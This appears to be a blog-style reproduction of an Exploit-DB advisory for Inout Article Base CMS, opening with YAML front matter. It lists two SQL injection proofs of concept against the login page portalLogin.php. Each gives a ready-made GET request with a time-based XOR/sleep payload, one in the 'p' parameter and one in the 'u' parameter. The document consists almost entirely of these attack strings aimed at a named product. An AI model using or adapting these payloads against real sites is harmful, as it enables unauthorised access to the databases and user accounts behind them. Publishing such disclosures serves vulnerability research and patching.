 ```yaml
---
layout:     post
title:      "Inout Article Base CMS - SQL Injection"
date:       2019-03-22 12:35
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Inout Article Base CMS - SQL Injection
# Date: 21.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.inoutscripts.com/products/inout-article-base/
# Demo Site: http://www.inoutwebportal.com
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/articles/portalLogin.php
Vulnerable Parameter: p (GET)
Attack Pattern:
http://locahost/[PATH]/articles/portalLogin.php?d=65ded5353c5ee48d0b7d48c591b8f430&p=0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z&u=test

----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/articles/portalLogin.php
Vulnerable Parameter: u (GET)
Attack Pattern:
http://locahost/[PATH]/articles/portalLogin.php?d=65ded5353c5ee48d0b7d48c591b8f430&p=fe01ce2a7fbac8fafaed7c982a04e229&u=0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z
            
